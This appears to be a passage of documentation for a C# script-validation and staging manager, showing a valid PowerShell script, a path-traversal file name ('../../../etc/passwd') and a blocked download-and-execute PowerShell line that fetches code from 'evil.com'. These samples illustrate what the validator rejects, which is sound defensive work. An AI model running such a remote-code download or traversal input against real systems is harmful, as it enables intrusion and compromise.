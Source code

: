 ```csharp
            // Or manual cleanup:
            // if (env != null)
            // {
            //     await _stagingManager.CleanupStagingEnvironmentAsync(
            //         env, cancellationToken);
            // }
        }
    }
}
```

### 3. Script Validation Examples

**Valid Script:**
```csharp
var scriptContent = @"
Get-Process | Where-Object { $_.CPU -gt 100 } |
    Select-Object Name, CPU, WorkingSet |
    Export-Csv -Path output.csv -NoTypeInformation
";

var result = await _stagingManager.ValidateAndStageScriptAsync(
    env,
    scriptContent,
    "process-monitor.ps1");

// result.IsValid == true
// result.Checksum == "a1b2c3d4..."
```

**Invalid Script (Path Traversal):**
```csharp
var result = await _stagingManager.ValidateAndStageScriptAsync(
    env,
    "...",
    "../../../etc/passwd"); // Path traversal detected

// result.IsValid == false
// result.Errors == ["Script name contains invalid characters or path traversal pattern"]
```

**Dangerous Script (Blocked):**
```csharp
var maliciousScript = @"
Invoke-Expression (New-Object Net.WebClient).DownloadString('http://evil.com/script.ps1')
";

var result = await _stagingManager.ValidateAndStageScriptAsync(
    env,
    maliciousScript,
    "malicious.ps1");

// result.IsValid == false
// result.Errors == ["Dangerous code execution pattern detected: Invoke-Expression"]
```
